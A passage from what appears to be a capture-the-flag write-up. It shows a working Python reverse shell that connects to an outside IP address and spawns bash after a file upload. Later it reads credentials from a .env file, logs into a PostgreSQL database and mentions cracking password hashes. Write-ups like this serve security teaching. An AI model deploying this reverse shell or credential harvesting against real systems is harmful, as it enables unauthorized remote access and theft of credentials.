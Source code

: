 With the ability to upload files, a Python reverse shell script was crafted and uploaded to gain remote access:

```python
#!/usr/bin/env python
import os
import pty
import socket

from multiprocessing import Process

def revshell():
    s=socket.socket();
    s.connect(("136.144.163.185",44556));
    [os.dup2(s.fileno(),f)for f in(0,1,2)];
    pty.spawn("/bin/bash")


if __name__ == '__main__':
    p = Process(target=revshell)
    p.start()
```

### Obtaining the Second Flag

Once the reverse shell was established, further exploration of the server was conducted, leading to the discovery of the second flag:

```sh
# Command to view the flag
cat flag.txt

# Output
CEMA{NOT_ALL_PDFS_ARE_EQUAL}
```

## Part 3: Database Access and Password Cracking

Credentials for a PostgreSQL database were found. Accessing the database and cracking hashed passwords from the users table revealed more information.

```sh
appuser@frontend_app:~$ cat /app/src/.env
cat /app/src/.env
POSTGRES_USER=growtech
POSTGRES_PASSWORD=dontbenaughty
DB_HOST=database_app
DB_PORT=5432
POSTGRES_DB=growtech
appuser@frontend_app:~$
```

```bash
# Accessing the PostgreSQL database
psql -h database_app -p 5432 -U growtech -d growtech
```
